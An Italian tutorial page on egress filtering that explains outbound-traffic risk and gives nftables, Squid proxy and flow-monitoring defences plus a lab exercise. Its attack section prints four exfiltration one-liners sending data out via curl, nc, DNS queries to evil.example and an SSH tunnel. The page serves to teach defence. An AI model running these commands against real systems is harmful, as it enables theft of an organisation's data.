

## Perché conta

Il firewall tipico è un buttafuori che guarda solo chi entra. Chi esce passa quasi sempre: `ACCEPT` verso
qualunque destinazione, su qualunque porta. È comodo, finché non entra qualcosa di ostile. A quel punto
un malware, una dipendenza compromessa o un insider hanno tutto ciò che serve: **un canale di uscita
libero**. Senza di esso il command-and-control non risponde, il payload di secondo stadio non si scarica
e i dati non lasciano la rete.

L'**egress filtering** inverte la prospettiva: parte dal presupposto che prima o poi un host verrà
compromesso e riduce ciò che può fare *dopo*. È la stessa logica della [microsegmentazione](),
applicata al confine con Internet invece che tra le zone interne.

## Come funziona

Un server di produzione ha bisogno di poche destinazioni: DNS interno, NTP, repository dei pacchetti,
il sistema di logging. Tutto il resto è, per definizione, sospetto. La policy ha tre livelli: l'host può
parlare solo con un **resolver controllato**, il traffico web passa da un **proxy** che applica
allowlist per dominio, e ciò che viene scartato lascia una **traccia** utile al SIEM.



Il rischio si misura in tempo. Con $S$ byte da rubare e una banda in uscita permessa $B$ (bit/s), il
tempo minimo di esfiltrazione è

$$T_{exfil} = \frac{8\,S}{B}$$

Un database da 50 GB a 100 Mbit/s esce in circa 67 minuti. Ma un attaccante paziente può restare sotto
soglia: con un canale a $B = 8$ kbit/s, tipico di un tunnel DNS o ICMP, lo stesso dato richiede oltre
580 giorni, quindi l'obiettivo non è solo bloccare ma **rendere lo stealth antieconomico**.

## L'attacco

Con poche porte aperte l'esfiltrazione trova comunque una via. Esempi tipici (tecnica T1048 di ATT&CK),
da provare solo in un lab:

```bash
# 1. HTTPS verso un servizio legittimo ma controllato dall'attaccante
tar czf - /srv/data | curl -s -T - https://paste.example/upload

# 2. Porta "dimenticata": 53/tcp aperto verso qualunque destinazione
tar czf - /srv/data | nc 198.51.100.7 53

# 3. DNS come trasporto: ogni query porta un frammento nel nome
for c in $(base64 -w0 secret.txt | fold -w 40); do dig +short "$c.x.evil.example"; done

# 4. SSH come tunnel SOCKS verso l'esterno
ssh -N -D 1080 user@198.51.100.7
```

Il filtro per porta non basta: la 443 verso un servizio di storage pubblico sembra traffico normale.
Per questo la regola corretta è **per destinazione e per ruolo**, non per porta.

## La difesa

Base: policy `drop` in uscita sulla chain `output` (host) o `forward` (gateway), poi si apre solo ciò
che serve. Esempio per un server applicativo:

```nft {hl_lines=[3,6,7,8,9,10]}
table inet egress {
    set dns_ok  { type ipv4_addr; elements = { 10.0.0.53 } }
    chain output {
        type filter hook output priority 0; policy drop;
        ct state established,related accept
        oifname "lo" accept
        ip daddr @dns_ok udp dport 53 accept
        ip daddr 10.0.0.8 tcp dport 3128 accept   # proxy esplicito
        ip daddr 10.0.0.123 udp dport 123 accept  # NTP interno
        log prefix "EGRESS-DROP " level info limit rate 5/second drop
    }
}
```

Il proxy applica l'allowlist per dominio, che è il vero filtro applicativo. Con Squid:

```squid {hl_lines=[1,2,3]}
acl permessi dstdomain .debian.org .ubuntu.com repo.corp.example
http_access allow permessi
http_access deny all
```

Sull'host, le variabili `http_proxy`/`https_proxy` puntano al proxy: tutto il resto fallisce e il log
`EGRESS-DROP` lo segnala. Poi si **osserva**: i flow record (IPFIX, RFC 7011) permettono di cercare
host che inviano molti più byte di quanti ne ricevono, indice di upload anomalo:

```bash
# rapporto upload/download per host: valori >> 1 su un server sono sospetti
nfdump -R /var/nfcapd -s srcip/bytes -n 10 'dst net not 10.0.0.0/8'
```

Il resolver controllato chiude il canale DNS diretto (vedi [DNS tunneling]()),
mentre Suricata o Zeek sul gateway riconoscono tunnel SOCKS o SSH verso destinazioni mai viste.

## Lab

Obiettivo: verificare che la policy blocchi tre canali di esfiltrazione.

1. In una VM carica la tabella `egress` sopra, con un server `nc -l 4444` su un'altra macchina.
2. Prova: `nc 198.51.100.7 53`, `curl https://example.org`, `dig @8.8.8.8 example.org`.
3. Leggi i drop con `journalctl -k | grep EGRESS-DROP` e spiega quale regola ha agito su ciascuno.


<details><summary>Soluzione</summary>
<p>Tutte e tre le prove falliscono: la <code>nc</code> sulla 53 non corrisponde al set <code>dns_ok</code>
(la destinazione non è il resolver interno), <code>curl</code> diretto non passa perché l'unica uscita web
ammessa è il proxy su <code>10.0.0.8:3128</code>, e <code>dig @8.8.8.8</code> viene scartato perché il
resolver permesso è solo <code>10.0.0.53</code>. Nei log compaiono tre righe <code>EGRESS-DROP</code> con
<code>DST</code> e <code>DPT</code> diversi. Con <code>curl -x http://10.0.0.8:3128 https://debian.org</code>
la richiesta passa; con un dominio fuori allowlist il proxy risponde 403, quindi il blocco avviene a
livello applicativo e non di rete.</p>
</details>


## Conclusione

Il perimetro in ingresso dice chi può entrare; l'egress filtering decide cosa può **uscire** quando
qualcosa è già dentro. Una policy default-deny con resolver e proxy controllati, più log dei drop e
flow record, trasforma un canale di uscita libero in un evento rilevabile. Non ferma ogni tecnica, ma
alza il costo dell'attaccante e dà al SOC un segnale: un server che prova a contattare Internet fuori
policy è quasi sempre un incidente.

**Prossimo nella serie:** il rilevamento con [Zeek e Network Security Monitoring]() · [Torna alla roadmap]()
